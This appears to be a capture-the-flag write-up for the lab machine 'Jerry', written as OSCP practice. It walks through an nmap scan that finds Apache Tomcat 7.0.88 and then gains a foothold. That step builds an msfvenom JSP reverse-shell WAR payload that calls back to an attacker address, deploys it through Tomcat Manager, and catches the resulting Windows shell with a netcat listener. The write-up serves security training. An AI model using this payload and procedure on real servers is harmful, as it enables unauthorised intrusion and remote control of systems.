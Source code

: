 # Jerry
Jerry is an Easy Windows machine, and is suggested practice for the OSCP Excam.

## Enumeration
### Nmap Scan
```bash
nmap -sC -sV -Pn 10.10.10.95
```
**Results**
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 10:11 BST
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.75 seconds
```
We can see from the above results that there is an Apache Tomcat service running on port 8080. 

### Web Server
We can visit the Apache Tomcat webserver on ```http://10.10.10.95:8080```.

From here we can confirm again that the version that is running is ```7.0.88``` and that it corresponds with the Nmap version check. No trickery here.

We can click around the web panel 

## Foothold
### Payload
We can generate a ```war``` payload using ```msfvenom```.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=1234 -f war > shell.war
```
We can upload this to to the Tomcat Manager. Creat a listener so that we can catch the incoming connection:
```bash
user@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
```
Now browse to ```http://10.10.10.95:8080/shell```. The payload will run and we will recieve a connection into our listener.
```bash
user@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```
